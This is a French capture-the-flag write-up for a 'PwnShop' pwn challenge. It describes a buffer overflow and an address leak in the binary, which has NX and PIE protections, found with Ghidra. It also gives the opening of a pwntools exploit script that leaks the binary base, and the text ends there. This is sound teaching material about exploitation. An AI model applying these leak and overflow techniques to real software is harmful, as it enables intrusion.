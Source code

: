 # PwnShop [Pwn] Challenge

`—- File Type -—`

Nous avons un ELF 64 bits Linux ayant 2 sécurité NX et PIE.  NX nous empêche d’exécuter du code dans le stack et PIE alloue les adresse aléatoirement ce qui ne nous permet pas de prévoir à l’avance sur qu’elle adresse rebondir.

Le programme est plutôt simple nous avons 3 choix nous avons le droit à 8 caractère d’entré.

Dans ghidra nous voyons que la limite de 8 n’est pas respécté dans toutes les entrées. Le read avant “How much do you want to pay for it” lis 30  ce qui est un buffer overflow.

Une autre chose étrange est le Sell quand nous mettons 8 caractère dedans nous avons un retour spécial.

Une entré “12345678” nous avons ceci en retour :

![Untitled](PwnShop%20%5BPwn%5D%20Challenge%20895ef805e6ed4a98889545f333366461/Untitled.png)

Nous pouvons répéter cette erreur de plusieurs façon en ayant des caractères différent à chaque fois ce que nous pouvons comprendre de cela c’est nous écrivons sur une adresse différente à chaque fois. Pour résoudre ce chall il faut leak l’adresse du programme.

`—- Leaking binary address -—`

Dans ghidra il y a in appel à un pointeur sur local_20 pointeur qui est dans un read du programme.

A partir de la nous pouvons essayer d’obtenir un offset avec ce script :

```python
#!/usr/bin/env python3

from pwn import *

def main():
        io = process('./pwnshop')

        #STEP 1 Leak binary address

        io.sendlineafter('\n> ', '2')
        io.sendlineafter('What do you wish to sell? ', '')
        leak_padding = b'1'*8
        io.sendafter('How much do you want for it? ', leak_padding)

        binary_offset = io.recvline().split(b'1'*8)[1].split(b'?')[0]
        binary_offset = bytearray(binary_offset).ljust(8, b'\x00')
```